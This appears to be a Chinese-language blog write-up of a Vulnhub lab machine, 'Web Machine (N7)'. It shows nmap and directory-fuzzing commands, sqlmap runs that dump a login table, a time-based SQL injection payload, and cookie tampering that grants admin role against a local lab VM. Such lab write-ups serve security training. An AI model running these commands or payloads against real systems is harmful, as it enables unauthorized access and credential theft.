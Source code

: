 ```yaml
---
layout: post
title: Web Machine (N7)
subtitle: Web Machine (N7)
date: 2022-12-09 20:35
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - Vulnhub
  - 靶场实战
published: true
---
```


## Web Machine (N7)

靶机 ip：192.168.56.101

kali 攻击机 ip：192.168.56.102

注：关于 vmware 和 virtual box 虚拟机如何建立网络连接，详见：[不同虚拟化平台的虚拟机之间进行网络通信 - 简书](https://www.jianshu.com/p/632d91db9430)

### 1. 使用 nmap 扫描 c 段

```shell
nmap -sS 192.168.56.0/24
# 发现192.168.56.101
nmap -sV -sC -A 192.168.56.101
# 发现只有80端口开放
```

### 2. 扫描目录

```shell
dirb http://192.168.56.101
# http://192.168.56.101/index.html
# http://192.168.56.101/server-status
```

在浏览器查看，未发现有效信息，继续扫描

```shell
wfuzz -w /usr/share/fuzzDicts/ctfDict/ctf.txt --hc 404 http://192.168.56.101/FUZZ

ffuf -u "http://192.168.56.101/FUZZ" -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -fc 404 -e .html,.txt,.php,.zip
```

发现 exploit.html 文件，访问并提交文件，发现跳转到 localhost。将 localhost 改为靶机 ip 尝试。

![image-20221209203518987.png](https://img.ghostliner.top/Zk10Bb.png)

点击提交，得到部分 flag `FLAG{N7`

通过扫描得到`enter_network/index.php` 和 `enter_network/admin.php` 。第一个为登陆界面，第二个需要 admin 权限。接下来可以对登陆界面使用 sqlmap 检测是否有注入漏洞，或是 bp 抓包分析。

### 3. 使用 sqlmap 进行 sql 注入

```shell
sqlmap -u "http://192.168.56.101/enter_network/" --forms --dbs --current-db
# 数据库名 Machine
```

![image-20221209174849702.png](https://img.ghostliner.top/hMbCrZ.png)

```shell
sqlmap -u "http://192.168.56.101/enter_network/" --forms --batch -D "Machine" --tables
```

得到 tables: login

```shell
sqlmap -u "http://192.168.56.101/enter_network/" --forms --batch -D "Machine" -T "login" --columns
```

得到 colums: password;role;username

```shell
sqlmap -u "http://192.168.56.101/enter_network/" --forms --batch -D "Machine" -T "login" -C "username,role,password" --dump
# username:administrator
# role:admin
# password:FLAG{N7:KSA_01}
```

![image-20221209174731002.png](https://img.ghostliner.top/5AH2sR.png)

### 4. bp 抓包分析

![image-20221209205529082.png](https://img.ghostliner.top/nKhqbY.png)

response 中 set-Cookie 中`%253D`为=

```
MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM=
# 尝试进行base64解密
21232f297a57a5a743894a0e4a801fc3
# 32位尝试MD5解密
admin
```

思路 1：用户名处输入`1'+or+sleep(3)--+`发现有注入漏洞，可根据时间盲注，结合 bp 或 sqlmap。

思路 2：根据此漏洞猜解用户名，不如思路 1。

思路 3：针对 admin.php，修改 request 中 cookie 中 role 为 admin

![image-20221209212032503.png](https://img.ghostliner.top/gAMIcc.png)

得到： `KSA_01}`
